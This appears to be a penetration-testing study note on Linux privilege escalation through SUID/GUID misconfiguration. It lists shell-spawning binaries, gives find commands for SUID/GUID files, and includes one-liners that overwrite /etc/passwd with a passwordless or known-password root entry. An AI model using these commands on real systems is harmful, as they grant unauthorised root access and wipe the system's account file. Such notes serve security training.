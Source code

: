 # suid and guid Misconfiguration

## Overview

* when a binary with suid permission is run it is run as another user, and therefore with the other users privileges
* it could be root, or just another user
* if the suid-bit is set on a program that can spawn a shell or in another way be abuse we could use that to escalate our privileges.
* for example, these are some programs that can be used to spawn a shell

```bash
nmap
vim
less
more
```

* if these programs have suid-bit set we can use them to escalate privileges too
* for more of these and how to use the see the next section about abusing sudo-rights

```bash
nano
cp
mv
find
```

## Find Suid and Guid Files

* find SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

* find GUID

```bash
find / -perm -g=s -type f 2>/dev/null
```

## Is /etc/passwd Writable?

```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
# or
echo "root:JblITMXA7I1hg:0:0:root:/root:/bin/bash" > /etc/passwd
# then su using password rowbot 
```
